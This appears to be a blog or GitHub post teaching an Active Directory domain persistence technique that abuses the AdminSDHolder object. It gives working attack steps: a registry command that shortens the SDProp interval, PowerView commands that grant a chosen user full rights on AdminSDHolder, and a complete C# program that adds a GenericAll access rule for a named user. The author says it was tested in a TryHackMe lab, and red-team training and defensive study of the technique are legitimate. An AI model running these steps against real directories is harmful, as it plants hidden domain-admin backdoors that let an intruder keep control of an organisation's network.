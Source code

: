 # Adding ourselves to AdminSDHolder

In this post, we will be discussing a domain persistence technique.

## AdminSDHolder Object
AdminSDHolder container acts as ACL template for many protected users and accounts in Active Directory. For every 60 minutes SDProp process applies these ACE's of AdminSDHolder object. This means if we add an user with All Permissions to this object then we can add ourselves to the 'Domain Admins' group. Also we need Domain Administrator privileges to add an user.

Distinguised Name for AdminSDHolder object is `CN=AdminSDHolder,CN=System,DC=tech69,DC=local`

To view in the "Active Directory Users and Computers" -> Click on View -> Show Advanced

## Changing the SDProp interval via registry

We can set it to any number of seconds we want

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 100
```

## Adding User via PowerView

Import poweview and use command Add-objectacl

```powershell
import-module powerview.ps1


Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName test1 -Verbose -Rights All
```

To check if we are part of Domain Admins or not, we can use net command or

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'test1'}
```

## Adding User via C#

I have explained this code in my youtube channel and here is the video link
[Domain Persistence via AdminSDHolder](https://youtu.be/4TMpwKBTFq0)

Also i have tested this on my local AD and in tryhackme's throwback network. You can configure this program to receive command line arguments to add specific user. 

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.DirectoryServices;
using System.DirectoryServices.ActiveDirectory;
using System.DirectoryServices.AccountManagement;
using System.Security.Principal;
using System.Security.AccessControl;

namespace ADACL101
{
    class Program
    {
        static void Main(string[] args)
        {

            DirectoryEntry de = new DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=THROWBACK,DC=local");
            DirectorySearcher ds = new DirectorySearcher();
            ds.SearchRoot = de;
            foreach(SearchResult sr in ds.FindAll())
            {
                DirectoryEntry holder = sr.GetDirectoryEntry();
                ActiveDirectorySecurity ads = holder.ObjectSecurity;
                AuthorizationRuleCollection arc = ads.GetAccessRules(true, true, typeof(NTAccount));
                foreach(AuthorizationRule a in arc)
                {
                    Console.WriteLine(a.IdentityReference.ToString());
                }
                PrincipalContext pc = new PrincipalContext(ContextType.Domain);
                UserPrincipal user = UserPrincipal.FindByIdentity(pc, "BlaireJ");
                ActiveDirectoryAccessRule ar = new ActiveDirectoryAccessRule(user.Sid, ActiveDirectoryRights.GenericAll, AccessControlType.Allow);
                ads.AddAccessRule(ar);
                holder.CommitChanges();
            }
        }
    }
}

```



## Manually triggering SDProp

We can manually trigger these replication changes via ldp.exe 

This microsoft doc explains very clearly -> [Protected Accounts and Groups](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)
